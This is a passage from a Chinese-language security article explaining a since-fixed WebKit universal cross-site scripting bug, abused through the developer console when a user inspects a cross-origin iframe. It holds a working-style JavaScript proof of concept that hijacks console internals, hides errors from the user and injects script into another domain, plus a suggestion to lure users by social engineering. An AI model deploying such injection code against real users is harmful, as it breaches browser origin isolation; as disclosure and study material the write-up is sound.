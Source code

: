 0x08 通用的跨站脚本攻击
--------------

* * *

现在让我们来讨论一下这个已经被修复的漏洞。这个漏洞可以在一些用户交互的基础上将恶意站点的A内的脚本或页面植入到站点B当中。它的工作原理很简单。当用户审查元素时，它会被加入到历史数组里。用户可以通过console.$0来访问它。但是遗憾的是，如果它已经通过别的域名被执行，我们就无法访问它。如果想要真正的利用这个exploit，我们至少需要用户右键点击这个iframe，打开控制台并输入命令。

我想会有很多社工性质的方法可以让我们去引导用户去完成这一系列的操作。当然我个人认为最有效的方法就是什么都不要去做，而是等待开发者自己攻击自己。我也做了一个POC来证明，这一切的可行性。如果完成上述的操作要求来，不出意外alert(document.domain)应该会被执行。

```
// On console command run
Object.defineProperty(console, '_commandLineAPI', {
 get: function () {
  // Save a reference to the InjectedScriptHost globally
  window.InjectedScriptHost = arguments.callee.caller.arguments[1];
  // Get the injectedScript object
  window.injectedScript = InjectedScriptHost.functionDetails(arguments.callee.caller.arguments.callee).rawScopes[0].object.injectedScript;
  // Trigger another inspect (not sure why this helps but it does)
  injectedScript._inspect(document.getElementById('hacks'));
  // Keep checking if an element has been inspected every 10th of a second
  var check = function() {
   // Hide any errors on the console to keep people unaware
   try {
    // Get the first inspected object
    var el = injectedScript._commandLineAPIImpl._inspectedObject(1);
    // Loop until no more parents
    while (el.parentNode) { el = el.parentNode; }
    // If the element is not the current page
    if (el.URL !== window.location.href) {
     // Stop checking
     clearInterval(check);
     // Create the script element
     var script = document.createElement('script');
     script.type = 'text/javascript';
     script.innerHTML = "alert(document.domain)";
     // Add the script to the frame
     el.getElementsByTagName('head')[0].appendChild(script);
    }
   } catch (e) {}
  };
  // Return the orginal evaluate function
  return InjectedScriptHost.__proto__.evaluate;
 }
});

```

就如我之前说的那样，[[email protected]](http://drops.com:8000/cdn-cgi/l/email-protection)个漏洞或者补丁感兴趣，可以点击这里[here](http://trac.webkit.org/changeset/138228).

0x09 最后
-------
